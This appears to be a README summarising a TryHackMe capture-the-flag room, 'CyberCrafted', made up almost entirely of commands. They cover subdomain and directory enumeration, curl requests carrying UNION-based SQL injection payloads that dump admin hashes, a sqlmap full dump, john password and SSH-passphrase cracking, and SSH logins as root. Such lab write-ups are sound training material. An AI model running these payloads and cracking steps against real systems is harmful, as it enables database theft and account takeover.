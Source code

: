 # TryHackMe-CyberCrafted

**Scope:**

- Screen
- SQL Injection

**Keywords:**

- Subdomain & Virtual Host Enumeration
- Directory Scan
- SQL Injection
- Password Cracking
- Passphrase Cracking for SSH Connection
- Log Analysis
- Screen Binary Escape

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`
- `ffuf -u 'PROTOCOL://cybercrafted.thm/' -H 'Host: HOST.cybercrafted.thm' -w <(echo -e "http\nhttps"):PROTOCOL -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:HOST -ic -mc 200,301,302,403 -t 70 -fs 0`
- `gobuster dir -u http://cybercrafted.thm/ -w /usr/share/wordlists/dirb/common.txt -e -x php,txt,html --random-agent -b 403,404,500,501,502,503 -t 20`
- `gobuster dir -u http://store.cybercrafted.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -e -x php,txt,html --random-agent -b 403,404,500,501,502,503 -t 20`
- `gobuster dir -u http://admin.cybercrafted.thm/ -w /usr/share/wordlists/dirb/common.txt -e -x php,txt,html --random-agent -b 403,404,500,501,502,503 -t 20`
- `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+1%2C2%2C3%2C4+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`
- `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+1%2C@@version%2C3%2C4+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`
- `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+1%2Cuser()%2C3%2C4+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`
- `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+1%2Cdatabase()%2C3%2C4+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`
- `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+NULL%2CNULL%2CNULL%2Ctable_name+FROM+information_schema.tables+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`
- `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+NULL%2CNULL%2CNULL%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D%27admin%27+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`
- `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+NULL%2Cid%2Cuser%2Chash+FROM+admin+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`
- `sqlmap --random-agent -r sqlmapreq.txt --dump-all --batch -p 'search' -D webapp`
- `sudo john ultimatehash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1`
- `chmod 600 id_rsa_ulti`
- `ssh -i id_rsa_ulti xxultimatecreeperxx@cybercrafted.thm`
- `ssh2john id_rsa_ulti > hashidrsa`
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hashidrsa`
- `ssh root@cybercrafted.thm -p 22`
